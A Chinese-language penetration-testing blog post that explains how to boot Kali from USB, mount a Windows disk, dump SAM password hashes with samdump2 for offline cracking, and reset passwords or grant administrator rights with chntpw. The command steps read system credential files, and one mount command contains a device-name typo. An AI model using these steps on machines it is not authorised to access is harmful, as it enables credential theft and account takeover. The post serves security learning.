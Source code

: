 ```yaml
---
title: 'Penetration Testing : 物理攻击之samdump2与chntpw'
date: 2019-11-22 16:36:10
tags: [Penetration Testing,Kali Linux]
---
```


## Penetration Testing : 物理攻击之 samdump2 与 chntpw

### 使用 samdump2 破解 Windows 密码
1. *首先将装有 Kali linux 操作系统的 U 盘插入 PC，并通过设置 BLOS 来启动 Kali linux*

2. *通过命令查看分区情况，然后将 U 盘挂载到 Windows 操作系统的系统盘. 例如我的系统盘显示为 : `/dev/sda2`*
```sh
fdisk -l

mount /dev/sad2 /mnt/
```

3. *进入挂载目录，查看是否正确挂载. ( 如果正确显示系统盘 C 盘文件，则表示挂载成功  )*
```sh
cd /mnt/

ls -la
```

4. *接着进入 Windows 用于存放用户账号密码的文件夹下*
```sh
cd /Windows/System32/config
```

5. *使用 Kali linux 自带的 `samdump2` 来获取存储在 Windows 系统上的用户账号和密码. 然后可通过 cat 命令查看所有用户系统驱动器以及它们的密码散列值*
```sh
samdump2 SYSTEM SAM -o sam.hash

cat sam.hash
```

6. *最后可通过 `Hashcat`，`John Ripper` 或 `Credump` 等工具来完成对用户密码的破解*


#### Tool
> Hashcat : https://github.com/hashcat/hashcat

> John Ripper : https://github.com/magnumripper/JohnTheRipper



### 使用 chntpw 操作 Windows 密码
*`chntpw` 是一个 Kali linux 自带的工具，可以用于编辑 Windows 注册表、重置用户密码、将用户提升为管理员，以及其它的一些有用的选项.*

*前 4 步和上述 `使用 samdump2 破解 Windows 密码` 相同. 进入 Windows 用于存放用户账号密码的文件夹下后，运行 `chntpw`*
```sh
chntpw SAM
```

* 密码存储在 Windows 系统中的 SAM( Security Account Management ) 文件中，它是 Windows XP，Windows Vista 及 Windows 7 等用于存储用户密码的数据库文件

*例如操作指定用户的SAM. ( 可通过命令 `chntpw -l <sam file>` 来查看 SAM 的用户列表 )*
```sh
#chntpw -l <sam file>
#chntpw -u <user><sam file>

chntpw -u username SAM
```

*执行指定的操作后即可执行命令 `q` 退出编辑，最后你应该可以得到确认，例如提示信息 : `<SAM>-OK`*


#### Tool
> chntpw : https://github.com/Tody-Guo/chntpw
